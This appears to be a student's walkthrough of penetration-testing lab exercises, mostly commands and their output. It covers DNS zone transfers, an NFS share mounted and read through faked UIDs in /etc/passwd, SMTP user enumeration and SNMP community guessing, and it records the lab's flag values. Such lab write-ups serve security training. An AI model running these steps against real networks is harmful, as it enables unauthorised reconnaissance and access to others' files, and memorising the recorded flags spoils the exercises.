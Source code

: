 
###### 7.1.7.4
Now that you have proven your DNS prowess, let's see you put it to work on a real unknown network. The first step is to identify the lab's DNS server.  
The network on VM Group 1 is private and the domain name is currently unknown; however, you do know the lab's IP range, and that is plenty of information for this problem.  
Take an active approach to scan this IP range identify the host(s) listening on the DNS port, and then query those servers to find the true DNS server for the public domain.  
Then, identify the full domain name of the main DNS server. The flag is in a TXT record with the same name as the full domain name.

Scan for open 53 ports:
```bash
nmap -p 53 192.168.222.0/24 | grep open -B5
```

Get x.x.x.149 & x.x.x.254

Resolve domain name:
```bash
host 192.168.196.149 192.168.222.149  
	149.222.168.192.in-addr.arpa domain name pointer dc.MAILMAN.com.
```

```bash
host -l mailman.com 192.168.222.149  
  
Using domain server:  
Name: 192.168.222.149  
Address: 192.168.222.149#53  
Aliases:   
  
mailman.com name server dc.mailman.com.  
_msdcs.mailman.com name server dc.mailman.com.  
dc.mailman.com has address 192.168.222.149  
DomainDnsZones.mailman.com has address 192.168.50.149  
DomainDnsZones.mailman.com has address 192.168.120.149  
ForestDnsZones.mailman.com has address 192.168.50.149  
ForestDnsZones.mailman.com has address 192.168.120.149
```

```bash
dnsrecon -d mailman.com -n 192.168.222.149 -t axfr  
  
[*] Checking for Zone Transfer for mailman.com name servers  
[*] Resolving SOA Record  
...
[*] Trying NS server 192.168.222.149  
[+] 192.168.222.149 Has port 53 TCP Open  
[+] Zone Transfer was successful!!  
[*]      NS dc.mailman.com 192.168.222.149  
[*]      NS dc.mailman.com 192.168.222.149  
[*]      TXT OS{7a3971bc48b15581ae6224ff830fa542}  
...
```


###### 7.1.7.5
Great! You have figured out where the main DNS server is located. Now,once started VM Group 2, use your active recon techniques to interrogate this server  
and learn more about the domain. In doing so, you will learn that the DNS host you found is also the name server for a special subdomain. Going further,  
you will then learn about a single very special host (an A record) within this special subdomain. What is the only host known about by the DNS server on this  
additional subdomain? The flag is in a TXT record with the same name as the full domain name of this host.

```bash
dnsrecon -d _msdcs.mailman.com -n 192.168.222.149 -t axfr  
[*] Checking for Zone Transfer for _msdcs.mailman.com name servers  
[*] Resolving SOA Record  
...  
[+] Zone Transfer was successful!!  
[*]      SOA dc.mailman.com 192.168.222.149  
[*]      NS dc.mailman.com 192.168.222.149  
[*]      TXT OS{d2c903f645c245ecdb985d4146023a16}
...
```


###### 7.1.7.6
You have recovered all the information you can about the target domain, but that might not be the only domain that the DNS server manages.  
Instead of approaching the recon from a domain name perspective, you should try approaching it from an IP perspective by doing a brute force  
search of the available IP range _192.168.x.0/24_ on VM Group 3.What new domain do you discover using this approach?

```bash
for ip in $(seq 0 255); do host -l 192.168.222.$ip 192.168.222.149; done | grep OS  
124.222.168.192.in-addr.arpa domain name pointer OS{5316b87f7eba818345990ed723821dce}.
```


###### 7.4.3.1&2
1. Use Nmap to make a list of machines running NFS in the labs.  
2. Use NSE scripts to scan these systems and collect additionalinformation about accessible shares.

```bash
nmap -v -p 111 10.11.1.* | grep -B 4 open | grep 10.11.1 | cut -d “ ” -f5 > nfsips.txt  
nmap -p --script=rpcinfo -iL nfsips.txt | tee rpcinfo.txt  
nmap -p --script=nfs* -iL nfsips.txt | tee nfsinfo.txt
```
	10.11.72
	nsf-showmount:
		/home 10.11.0.0/255.255.0.0 |


```bash
mkdir nfshome  
sudo mount -o nolock,vers=3 10.11.1.72:/home /home/kali/nfshome  
cd nfshome && ls -al
```
	total 28  
	drwxr-xr-x 7 root root 4096 Sep 17 2015 .  
	drwxr-xr-x 3 kali kali 4096 Oct 25 09:50 ..  
	drwxr-xr-x 2 1013 1013 4096 Sep 17 2015 jenny  
	drwxr-xr-x 2 1012 1012 4096 Sep 17 2015 joe45  
	drwxr-xr-x 2 1011 1011 4096 Sep 17 2015 john  
	drwxr-xr-x 2 1014 1014 4096 Oct 27 2019 marcus  
	drwxr-x--- 3 root 1010 4096 Jan 8 2015 ryuu  

  
```bash
cd marcus  
ls -la
```
	total 12  
	drwxr-xr-x 2 1014 1014 4096 Oct 27 2019 .  
	drwxr-xr-x 7 root root 4096 Sep 17 2015 ..  
	-rwx------ 1 1014 1014 48 Oct 27 2019 creds.txt  
 
  
```bash
sudo adduser pwn  
sudo sed -i -e ‘s/1001/1014/g’ /etc/passwd  
su pwn  
cat creds
```
	Not what you are looking for, try harder!!! :O)  


```bash
su kali  
sudo sed -i -e ‘s/1014/1010/g’ /etc/passwd  
su pwn  
cd ../ryuu  
ls -la
```
	total 32  
	drwxr-x--- 3 root 1010 4096 Jan 8 2015 .  
	drwxr-xr-x 7 root root 4096 Sep 17 2015 ..  
	-rw-r----- 1 root 1010 10 Jan 8 2015 .bash_login  
	-rw-r----- 1 root 1010 10 Jan 8 2015 .bash_logout  
	-rw-r----- 1 root 1010 10 Jan 8 2015 .bash_profile  
	-rw-r----- 1 root 1010 31 Jan 8 2015 .bashrc  
	-rw-r----- 1 root 1010 10 Jan 8 2015 .profile  
	drwxr-xr-x 3 root 1010 4096 Jan 8 2015 usr  


```bash
cd usr  
ls -la
```
	total 12  
	drwxr-xr-x 3 root 1010 4096 Jan 8 2015 .  
	drwxr-x--- 3 root 1010 4096 Jan 8 2015 ..  
	drwxr-x--- 2 root 1010 4096 Jan 8 2015 bin  


```bash
cd bin  
ls -la
```
	total 8  
	drwxr-x--- 2 root 1010 4096 Jan 8 2015 .  
	drwxr-xr-x 3 root 1010 4096 Jan 8 2015 ..  


```bash
cat .bash_login  
cat .bash_logout  
cat .bash_profile  
cat .profile  
```
	all return:  
	. .bashrc  


```bash
cat .bashrc
```
	export PATH=/home/ryuu/usr/bin



###### 7.5.1.1&2
1. Search your target network range to see if you can identify any systems that respond to the SMTP _VRFY_ command.  
2. Try using this Python code to automate the process of username discovery using a text file with usernames as input.  

```bash
ls -l /usr/share/nmap/scripts/smtp*
```
	-rw-r--r-- 1 root root 4309 Jan 18 2022 /usr/share/nmap/scripts/smtp-brute.nse  
	-rw-r--r-- 1 root root 4957 Jan 18 2022 /usr/share/nmap/scripts/smtp-commands.nse  
	-rw-r--r-- 1 root root 12006 Jan 18 2022 /usr/share/nmap/scripts/smtp-enum-users.nse  
	-rw-r--r-- 1 root root 5873 Jan 18 2022 /usr/share/nmap/scripts/smtp-ntlm-info.nse  
	-rw-r--r-- 1 root root 10148 Jan 18 2022 /usr/share/nmap/scripts/smtp-open-relay.nse  
	-rw-r--r-- 1 root root 716 Jan 18 2022 /usr/share/nmap/scripts/smtp-strangeport.nse  
	-rw-r--r-- 1 root root 14781 Jan 18 2022 /usr/share/nmap/scripts/smtp-vuln-cve2010-4344.nse  
	-rw-r--r-- 1 root root 7719 Jan 18 2022 /usr/share/nmap/scripts/smtp-vuln-cve2011-1720.nse  
	-rw-r--r-- 1 root root 7603 Jan 18 2022 /usr/share/nmap/scripts/smtp-vuln-cve2011-1764.nse  


```bash
nmap -sV -p 25 --script=smtp* 10.11.1.* --open | tee -a labtargets-smtp
```


###### 7.6.4.1&2
1. Scan your target network with onesixtyone to identify any SNMP servers.  
2. Use snmpwalk and snmp-check to gather information about the discovered targets.  


```bash
sudo nmap -sU -p 161 10.11.1.* --open | tee snmp  
grep 10.11.1 snmp > snmp-ips  
cat > snmp-community  
```
	public  
	private  
	manager


```bash
onesixtyone -c snmp-community -i snmp-ips
```
	Scanning 14 hosts, 4 communities  
	10.11.1.115 [public] Linux tophat.acme.com 2.4.20-8 #1 Thu Mar 13 17:54:28 EST 2003 i686  
	10.11.1.227 [public] Hardware: x86 Family 15 Model 1 Stepping 2 AT/AT COMPATIBLE - Software: Windows 2000 Version 5.0 (Build 2195 Uniprocessor Free)  


```bash
snmpwalk -c public -v1 10.11.1.115 | snmp-walk  
snmpwalk -c public -v1 10.11.1.227 >> snmp-walk
```
	10.11.1.115 kept timing out, so focused on .227  


```bash
snmpwalk -c public -v1 -t 10 10.11.1.227 1.3.6.1.4.1.77.1.2.25 | tee snmp-users  
snmpwalk -c public -v1 10.11.1.227 1.3.6.1.2.1.25.4.2.1.2 | tee snmp-procs  
snmpwalk -c public -v1 10.11.1.227 1.3.6.1.2.1.6.13.1.3 | tee snmp-ports
```


```bash
snmp-check 10.11.1.227 > snmp-chk
```